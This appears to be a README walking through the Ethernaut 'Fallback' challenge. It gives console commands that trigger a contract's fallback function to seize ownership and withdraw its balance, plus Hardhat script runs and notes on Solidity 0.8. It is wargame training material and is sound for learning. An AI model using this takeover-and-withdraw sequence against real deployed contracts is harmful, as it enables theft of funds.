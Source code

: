 [1. Fallback](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)
---

## Walkthrough

```
// 1. Contribute to contract.
await contract.contribute({value:1})

// 2. Send a tx to triggers fallback.
sendTransaction({ to: contract.address, value: 1 })

// 3. verify owner
await contract.owner()

// 4. withdraw
await contract.withdraw()

// 5. confirm the check balance
await getBalance(instance) // same as getBalance(contract.address)
```

## Contracts

- `contract/Fallback.sol` - Original version from Ethernaut website.
- `contract/FallbackV2.sol` - Updated for solidity 0.8.0
  - Remove `SafeMath`
  - Update `payable` function

## Hardhat

- [01-fallback](/scripts/01-fallback.ts)
- [02-fallback-v2](/scripts/01-fallback-v2.ts)

```
npx hardhat run scripts/01-fallback.ts
npx hardhat run scripts/01-fallback-v2-ts
```

## Lesson Learned

- You don't need `SafeMath` for solidity `v0.8.0` + has built-in the overflow/underflow check.
- `address` and `address payable` is different. converted using explicit converstion `payable(address)`